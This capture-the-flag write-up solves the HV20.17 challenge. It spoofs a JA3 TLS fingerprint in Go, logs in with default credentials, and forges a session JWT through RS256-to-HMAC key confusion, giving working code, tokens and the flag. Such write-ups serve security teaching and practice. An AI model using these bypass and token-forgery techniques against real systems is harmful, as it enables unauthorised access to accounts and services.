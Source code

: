 # HV20.17 Santa's Gift Factory Control

_Santa has a customized remote control panel for his gift factory at the north pole. Only clients with the following
fingerprint seem to be able to connect:_

`771,49162-49161-52393-49200-49199-49172-49171-52392,0-13-5-11-43-10,23-24,0`

## Mission

_Connect to Santa's super-secret control panel and circumvent its access controls._

[Santa's Control Panel](https://876cfcc0-1928-4a71-a63e-29334ca287a0.rdocker.vuln.land/)

## Hints

- _The remote control panel does client fingerprinting_

---

This is about [TLS fingerprinting](https://blog.squarelemon.com/tls-fingerprinting/).

The server responds with `HTTP 403 Forbidden`. We will have to bypass it somehow.

Read [Impersonating JA3 Fingerprint](https://medium.com/cu-cyber/impersonating-ja3-fingerprints-b9f555880e42). It comes
with this nice [JA3Transport](https://github.com/CUCyber/ja3transport) library which is written
in [Go](https://golang.org/).

I wasn't familiar with Go at all...

This is how I bypassed the TLS fingerprinting filter:

```go
package main

import "fmt"
import "io/ioutil"
import "net/http"
import "github.com/CUCyber/ja3transport"

func main() {
    client, _ := ja3transport.NewWithString("771,49162-49161-52393-49200-49199-49172-49171-52392,0-13-5-11-43-10,23-24,0")
    
    // Get homepage
    req, _ := http.NewRequest("GET", "https://876cfcc0-1928-4a71-a63e-29334ca287a0.rdocker.vuln.land/", nil)
    resp, _ := client.Do(req)
    
    // Print response headers
    for k, v := range resp.Header {
        fmt.Print(k)
        fmt.Print(" : ")
        fmt.Println(v)
    }
    
    // Print response body
    defer resp.Body.Close()
    bodyBytes, _ := ioutil.ReadAll(resp.Body)
    bodyString := string(bodyBytes)
    fmt.Print(bodyString)
}
```

Response from the server:

```
Server : [nginx/1.19.6]
Date : [Thu, 17 Dec 2020 20:19:17 GMT]
Content-Type : [text/html; charset=utf-8]
Content-Length : [1103]
Connection : [keep-alive]
```
```html
<html>
    <head>
        <meta charset="utf-8">
        <title>Santa's Control Panel</title>
        <meta name="viewport" content="width=device-width, initial-scale=1.0">
        <link href="static/bootstrap/bootstrap.min.css" rel="stylesheet" media="screen">
        <link href="static/fontawesome/css/all.min.css" rel="stylesheet" media="screen">
        <link href="static/style.css" rel="stylesheet" media="screen">
    </head>
    <body>
        <div class="login">
            <h1>Login</h1>
            <form action="/login" method="post">
                <label for="username">
                    <i class="fas fa-user"></i>
                </label>
                <input type="text" name="username" placeholder="Username" id="username">
                <label for="password">
                    <i class="fas fa-lock"></i>
                </label>
                <input type="password" name="password" placeholder="Password" id="password">
                
                <input type="submit" value="Login">
            </form>
        </div>
        
    </body>
</html>
```

A simple login form... I tried a few things such as SQL injection or guessing the password. I got lucky when
sending `admin/admin`:

```go
// Send login
req, _ := http.NewRequest("POST", "https://876cfcc0-1928-4a71-a63e-29334ca287a0.rdocker.vuln.land/login", strings.NewReader("username=admin&password=admin"))
req.Header.Set("Content-Type", "application/x-www-form-urlencoded")
resp, _ := client.Do(req)
```

Response from the server:

```
Content-Type : [text/html; charset=utf-8]
Content-Length : [1275]
Connection : [keep-alive]
Set-Cookie : [session=eyJ0eXAiOiJKV1QiLCJhbGciOiJSUzI1NiIsImtpZCI6Ii9rZXlzLzFkMjFhOWY5NDUifQ.eyJleHAiOjE2MDgyNDA1ODYsImlhdCI6MTYwODIzNjk4Niwic3ViIjoibm9uZSJ9.c19Xrlilv1H3k47UJlObQSn4ihlIgahge4u8141AcgFEmqAqXYNM68SUTa9gw0-IGI02t1hxSSBp1Ro_6O3LV0RUz0AHW5p7ZpqQpunJooZLXePddakn0flyi9XafP4JM_pVn9eTOAmn32Pj0_IaAQ6z_fGJcAxuQ2e8QLmW3abW0VNsTO_Df8zdpUZ8xyYbTQ_f44KSu42u5wqPgspNXQmMAX7cMoHC4UJzjPffAKE46rCaX7pS1zHPH5k0SwSBKdJ9VEMl4KYpkmqyOmGPScF6Qaj--Qgjpc87kecDimEAAHn85_VWbhbI4r19LyovTen1hcNB1nKD2ZsoyXEofg; Path=/]
Server : [nginx/1.19.6]
Date : [Thu, 17 Dec 2020 20:29:46 GMT]
```
```html
<html>
    ...
    <!--DevNotice: User santa seems broken. Temporarily use santa1337.-->
</html>
```

Cool, we know Santa's login now!

There is one more important thing - **a session with JWT token**!

I decoded the token at https://jwt.io/:

```
{
  "typ": "JWT",
  "alg": "RS256",
  "kid": "/keys/1d21a9f945"
}
{
  "exp": 1608240586,
  "iat": 1608236986,
  "sub": "none"
}
```

It's signed with an RSA public key located under `/keys/1d21a9f945`.

Let's get the key:

```go
// Get key
req, _ := http.NewRequest("GET", "https://876cfcc0-1928-4a71-a63e-29334ca287a0.rdocker.vuln.land/keys/1d21a9f945", nil)
resp, _ := client.Do(req)
```

Response from the server:

```
-----BEGIN PUBLIC KEY-----
MIIBIjANBgkqhkiG9w0BAQEFAAOCAQ8AMIIBCgKCAQEA0KDtdDsZ/wpGXWRnP6DY
Ri7OxTWiwPVg8eTsVcmbzAkk2r4itb3NqRw9xpJeUHorgfw1f9GkuAFg/squMrXb
SYM0Vcxqmtsq379xCw6s0pxIafPR7TEAVRh5Mxrudl2lwiO4vJPs+2tmcgui/bFn
wC+qByZtIlsP+rlT/MF2wLaWe/LNAWtOXdFVDOzUy6ylLZeL6fRtt9SiuUOQkkC3
US8TmvVQYcCcwvu4GBJeGdlKrbIuXIohl7hP5i9/KZ3kIvzByp/Xk5iq+tH95/9u
X/9FHKUSrcRE4NYVRhkqHPpn/EbqXHMX0BM0QoGETORlpZIo/lAOQ7/ezOd9z1fw
zwIDAQAB
-----END PUBLIC KEY-----

```

I tried to crack the key with [RsaCtfTool](https://github.com/Ganapati/RsaCtfTool) but it looks solid.

I knew about some attacks against JWT tokens. The Simplest one is just changing the verification from `RS256` to `none`
and strip the signature. It didn't work though.

Then I came across this
article [Critical vulnerabilities in JSON Web Token libraries](https://auth0.com/blog/critical-vulnerabilities-in-json-web-token-libraries/)
. There is a very nice attack against RSA verified tokens. Read the details in the article and pay big attention to:
> The trickiest part is making sure that `serverRSAPublicKey` is identical to the verification key used on the server. The strings must match exactly for the attack to work -- exact same format, and no extra or missing line breaks.

I crafted my forged token with a Java lib:

```kotlin
import cz.vernjan.ctf.Resources
import io.jsonwebtoken.Jwts
import io.jsonwebtoken.security.Keys
import java.util.*

fun main() {
    val key = Keys.hmacShaKeyFor(Resources.asBytes("hv20/key.pub"))

    val jws = Jwts.builder()
        .setSubject("santa1337")
        .setIssuedAt(Date())
        .setExpiration(Date(System.currentTimeMillis() + 1000 * 3600 * 24))
        .setHeaderParam("kid", "1d21a9f945")
        .signWith(key).compact()

    println(jws)
}

// Prints eyJraWQiOiIxZDIxYTlmOTQ1IiwiYWxnIjoiSFM1MTIifQ.eyJzdWIiOiJzYW50YTEzMzciLCJpYXQiOjE2MDgyMzc5MDQsImV4cCI6MTYwODMyNDMwNH0.W5o5nvnVzubP_pChXtPPSD0HTgEv1JSemLHRLfiYl7RPt3Zg8n48REDRWb9oLZXku3hWyDZX0nHQK4OBhy7Wbg
```

Grab the token and use it to bypass the login (full source at [client.go](client.go)):

```go
// Get homepage
req, _ := http.NewRequest("GET", "https://876cfcc0-1928-4a71-a63e-29334ca287a0.rdocker.vuln.land/", nil)
req.Header.Set("Cookie", "session=eyJraWQiOiIxZDIxYTlmOTQ1IiwiYWxnIjoiSFM1MTIifQ.eyJzdWIiOiJzYW50YTEzMzciLCJpYXQiOjE2MDgyMjgzNDQsImV4cCI6MTYwODMxNDc0NH0.ly4-lXnExyYE4bm2n42shPxK-XXHNaVLVcTMkeo13Q1DUYhalUViA3ereutshmHTNtL3tdrnZAxlGQSkkAM1FQ")
resp, _ := client.Do(req)
```

Response from the server:

```
...
<!--Congratulations, here's your flag: HV20{ja3_h45h_1mp3r50n4710n_15_fun}-->
...
```

The flag is `HV20{ja3_h45h_1mp3r50n4710n_15_fun}`

---

💡 Fun fact, Python lib [PyJWT](https://pyjwt.readthedocs.io/en/stable/) is too smart for this job and won't let you use
RSA public key for signing with HMAC:

```python
import jwt

f = open("key.pub", "r")
key = f.read()

payload = {
    "exp": 1609229515,
    "iat": 1608225915,
    "sub": "santa1337"
}

encoded_jwt = jwt.encode(payload, key, algorithm='HS256', headers={'kid': '1d21a9f945'})
print(encoded_jwt)
```

Exits with error:

```
jwt.exceptions.InvalidKeyError: The specified key is an asymmetric key or x509 certificate and should not be used as an HMAC secret.
```
